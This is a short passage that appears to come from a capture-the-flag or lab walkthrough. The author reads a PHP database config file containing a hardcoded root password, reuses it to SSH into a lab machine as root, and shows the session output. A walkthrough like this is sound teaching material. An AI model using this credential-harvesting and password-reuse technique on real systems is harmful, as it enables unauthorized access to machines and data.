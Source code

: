 ```bash
tmp
uploads
www
$ cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>$ 

```

After getting the credentials we can ssh into the root user. 

```bash
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.10.100
root@10.10.10.100's password: 
Welcome to Ubuntu 11.04 (GNU/Linux 2.6.38-8-server x86_64)

 * Documentation:  http://www.ubuntu.com/server/doc

  System information as of Fri Jun 11 22:18:23 EDT 2021

  System load:  0.0               Processes:           78
  Usage of /:   2.9% of 38.64GB   Users logged in:     0
  Memory usage: 18%               IP address for eth0: 10.10.10.100
  Swap usage:   0%

  Graph this data and manage this system at https://landscape.canonical.com/
Last login: Mon Jun  7 15:14:22 2021 from 10.10.10.101
root@web:~# 
root@web:~# whoami
root
root@web:~# 

```
Now we are at the root user XD !
 
